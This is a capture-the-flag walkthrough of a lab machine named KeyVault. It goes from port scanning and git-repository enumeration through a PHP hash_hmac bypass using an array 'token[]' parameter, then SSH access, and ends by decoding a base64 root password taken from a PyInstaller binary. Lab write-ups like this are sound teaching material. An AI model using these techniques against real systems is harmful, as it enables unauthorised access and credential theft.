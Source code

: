 # KeyVault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.160.207
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:46 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan too:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.207
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:47 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: KeyVault Password Manager &amp; Vault App with Single-Sign On ...
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-git: 
|   192.168.160.207:8080/.git/
|     Git repository found!
|     .git/config matched patterns 'key' 'user'
|     .gitignore matched patterns 'secret'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Added Files and .gitignore 
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: KeyVault - Password Manager
```

There was a `.git` repository which we could enumerate later.&#x20;

### Web + Git Enum

Port 80 hosted a website for a Password Manager:

<figure><img src="../../../.gitbook/assets/image (3945).png" alt=""><figcaption></figcaption></figure>

The site was rather static and had nothing interesting. Port 8080 had a login page:

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

Default credentials work, but we are redirected to this cryptic site:

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

Let's take a look at the `.git` repository files. The logs of the website reveal that there's a `hmac.php` which mentions a bit more about the crypto used:

```
$ git log -p -2
diff --git a/hmac.php b/hmac.php
new file mode 100644
index 0000000..0e54e4a
--- /dev/null
+++ b/hmac.php
@@ -0,0 +1,18 @@
+<?php
+if (empty($_GET['h']) || empty($_GET['host'])) {
+   header('HTTP/1.0 400 Bad Request');
+   print("Code sent to Ray for Review Until Then this site is protected......");
+   die();
+}
+require("secret.php"); 
+if (isset($_GET['token'])) {
+   $secret = hash_hmac('sha256', $_GET['token'], $secret);
+}
+
+$hm = hash_hmac('sha256', $_GET['host'], $secret);
+if ($hm !== $_GET['h']){
+  header('HTTP/1.0 403 Forbidden');
+  print("extra security check failed");
+  die();
+}
+?>
```

### Hash Bypass

We are required to submit a `h`, `host` and `token` variable to this website. There's a `$secret` value being passed around. While googling for similar exploits online, I came across this site:

{% embed url="https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/" %}

The above resources details a similar exploit, where they submit `token[]=` to trigger an error within PHP to make the value of `$security` obsolete. Thus, the second `hash_hmac` would just produce the SHA-256 hash of `host`, allowing attackers to just specify a `host` and using the SHA-256 value of `host` as `h`.&#x20;

&#x20;We can use their parameters to bypass this check:

<figure><img src="../../../.gitbook/assets/image (3928).png" alt=""><figcaption></figcaption></figure>

Visiting `index.php`with the same parameters will show us a page with a password:

<figure><img src="../../../.gitbook/assets/image (1181).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in as `ray`:

<figure><img src="../../../.gitbook/assets/image (674).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache-Restart -> Root Creds

Within the `/opt` directory, there's this file present:

{% code overflow="wrap" %}
```
ray@keyvault:/opt$ ls
apache-restart
ray@keyvault:/opt$ file apache-restart 
apache-restart: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
```
{% endcode %}

I ran the `binary` and on another `ssh` session, used `pspy64` to see the processes being run:

```
ray@keyvault:/opt$ ./apache-restart 
Restarting Apache Server without root....                                                    
                                                                                             
Password: 
Done
```

There was a password being keyed in. `pspy64` shows that `su` was run too:

```
2023/07/13 05:15:45 CMD: UID=1000 PID=4976   | ./apache-restart 
2023/07/13 05:15:45 CMD: UID=1000 PID=4977   | /bin/sh -c su -c '/bin/systemctl restart apache2'                                                                                          
2023/07/13 05:15:45 CMD: UID=0    PID=4978   | su -c /bin/systemctl restart apache2 
2023/07/13 05:15:45 CMD: UID=0    PID=4979   | (pachectl) 
2023/07/13 05:15:45 CMD: UID=0    PID=4981   | /usr/sbin/apache2 -k stop
```

Using `ltrace`, we can see the system calls makde and what is being written. However, the output is too long and difficult to analyse. I transferred this to my machine for further analysis. I ran `strings` on it and saw this bit:

```
blib-dynload/_asyncio.cpython-38-x86_64-linux-gnu.so
blib-dynload/_bz2.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_cn.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_hk.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_iso2022.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_jp.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_kr.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_tw.cpython-38-x86_64-linux-gnu.so
blib-dynload/_contextvars.cpython-38-x86_64-linux-gnu.so
blib-dynload/_ctypes.cpython-38-x86_64-linux-gnu.so
blib-dynload/_decimal.cpython-38-x86_64-linux-gnu.so
<TRUNCATED>
pydata
```

Because there's Python data, this might be a Python compiled binary. We can use a Python Decompiler to extract the modules that are within this.&#x20;

{% embed url="https://github.com/extremecoders-re/pyinstxtractor/tree/master" %}

```
$ python3 extractor.py apache-restart
[+] Processing apache-restart
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 6807628 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: apache-restart.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: apache-restart

You can now use a python decompiler on the pyc files within the extracted directory
```

Then, we can run `strings` on the `.pyc` files:

```
$ strings apache-restart.pyc 
TXlwZXRkb2duYW1laXNqYWNrOTA5z
utf-8z+Restarting Apache Server without root.... 
z'su -c '/bin/systemctl restart apache2' 
wg333333
Done)
base64
time
password
        b64decode
decode
print
popen
write
sleep
apache-restart.py
<module>
```

There's a string here, and it is `base64`:

```
$ echo TXlwZXRkb2duYW1laXNqYWNrOTA5z | base64 -d
Mypetdognameisjack909
```

Using this, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (3955).png" alt=""><figcaption></figcaption></figure>

Rooted!

